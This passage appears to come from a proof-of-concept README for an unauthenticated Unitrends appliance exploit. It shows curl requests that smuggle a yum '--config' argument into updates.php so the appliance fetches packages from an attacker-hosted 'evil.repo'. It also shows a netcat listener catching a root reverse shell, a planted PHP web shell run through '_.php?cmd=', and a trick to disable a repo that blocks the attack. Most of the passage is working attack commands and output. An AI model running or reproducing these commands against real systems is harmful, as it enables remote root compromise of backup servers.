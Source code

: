 3. Initiate the update!

```
[0x00 unitrends]$ curl 'http://192.168.56.100/recoveryconsole/bpl/updates.php?type=update&sid=0&names=--config=http://192.168.56.1:8080/evil.repo,connectback' -s -o /dev/null
```

4. Go back to your netcat listener, and profit!
   
```
[0x00 unitrends]$ nc -lv 4444
Connection from 192.168.56.101 52338 received!
id
uid=0(root) gid=0(root) groups=0(root),500(loggers)
uname -a
Linux localhost.localdomain 2.6.32-504.1.3.el6_bp.x86_64 #1 SMP Fri Nov 21 16:41:42 EST 2014 x86_64 x86_64 x86_64 GNU/Linux
```

### Exploitation steps for PHP backdoor

1. Publish the yum repository! I'm used to Python's SimpleHTTPServer, but of course any other HTTP server works.

```
[0x00 unitrends]$ cd poc/evilrepo
[0x00 evilrepo]$ python -mSimpleHTTPServer 8080
```

2. Initiate the update!
   
```
[0x00 unitrends]$ curl -k 'https://192.168.100.100/recoveryconsole/bpl/updates.php?type=update&sid=0&names=--config=http://192.168.100.1:8080/evil.repo,phpshell' -s -o /dev/null
```

3. Profit!

``` 
[0x00 ~]$ curl -k 'https://192.168.100.100/_.php?cmd=id'
uid=48(apache) gid=48(apache) euid=0(root) egid=0(root) groups=0(root),48(apache),500(loggers)
[0x00 ~]$ curl -k 'https://192.168.100.100/_.php?cmd=uname+-a'
Linux localhost.localdomain 2.6.32-642.11.1.el6.x86_64 #1 SMP Fri Nov 18 19:25:05 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```

### Problem with repo keys

When I've tried the exploit with a saved 8.2 version Unitrends instance, ```yum``` was complaining about verifying keys for the ```pgdg92``` repository, so the attack failed. This is easily circumvented however, by disabling that repo temporarly:

```
[0x00 unitrends]$ curl 'http://192.168.56.100/recoveryconsole/bpl/updates.php?type=update&sid=0&names=--config=http://192.168.56.1:8080/evil.repo,--disablerepo=pgdg92,phpshell' -s -o /dev/null
```
   
### Customization
